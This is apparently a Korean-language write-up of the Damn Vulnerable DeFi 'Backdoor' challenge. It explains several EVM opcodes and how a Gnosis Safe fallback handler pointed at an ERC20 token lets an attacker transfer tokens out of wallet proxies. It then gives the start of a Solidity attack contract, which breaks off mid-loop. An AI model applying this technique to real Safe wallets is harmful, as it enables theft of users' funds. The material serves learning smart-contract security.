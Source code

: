      
    
- calldatasize()
    
    [msg.data](http://msg.data)의 크기를 반환한다.
    
- caller
    
    함수를 호출한 주소 = msg.sender (delegatecall 제외)
    
- call(g, a, v, in, insize, out, outsize)
    
    **`CALL(g, a, v, in, insize, out, outsize)`**: 다른 컨트랙의 함수를 호출. 
    **`g`**는 가스량
    
    **`a`**는 대상 어카운트 주소
    **`v`**는 `msg.value` 
    **`in`**은 `msg.data`값의 메모리상의 위치 
    **`insize`**는 해당 인풋의 길이입니다. 
    **메모리의 `in, ..., in + insize — 1` 위치의 값**이 인풋(`msg.data`)으로 사용 
    만약 위 함수가 값을 반환한다면 메모리의 `out, ..., out + outsize — 1` 에 해당 반환값을 저장
    호출에 성공하면1, 실패하면 0을 반환한다.
    

internalSetFallbackHandler 에서는 slot에 전달받은 핸들러의 주소를 저장하는 것을 볼 수 있다.

slot에서 저장해 두었던 핸들러의 주소를 가져와 그 핸들러에서 전달받은 함수를 실행하게 된다. 따라서 핸들러에 원하는 주소를 넣은 후 그 핸들러에서 원하는 함수를 실행시킬 수 있다. 

ERC20 주소를 넣어주게 되면 Proxy에서 존재하지 않는 transfer 함수를 호출할 수 있으므로 Proxy에 존재하는 ERC20 토큰을 공격자에게로 전송시킬 수 있다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
import "../DamnValuableToken.sol";

interface IGnosisSafeProxyFactory{
     function createProxyWithCallback(
        address _singleton,
        bytes memory initializer,
        uint256 saltNonce,
        IProxyCreationCallback callback
    ) external returns (GnosisSafeProxy proxy);
}

contract attackBackdoor_fal {
    
    IGnosisSafeProxyFactory public factory;
    DamnValuableToken public immutable token; 
    address public masterCopy;
    IProxyCreationCallback public WalletRegistry;
    address public attacker;
    constructor(address _factory,address _mastercopy,address _token,address _WalletRegistry){
        factory= IGnosisSafeProxyFactory(_factory);
        masterCopy=_mastercopy;
        token=DamnValuableToken(_token);
        WalletRegistry=IProxyCreationCallback(_WalletRegistry);
        attacker=msg.sender;
    }
    function exploit(address[] memory users) public {
        for(uint i; i<4; i++){
            address[] memory owners = new address[](1);
            owners[0] = users[i];
            bytes memory initializer = abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)", 
            owners, 1, address(0), 0, address(token), address(0), uint256(0), address(0));

            address proxy = address(factory.createProxyWithCallback(masterCopy, initializer, 0, WalletRegistry)); 
```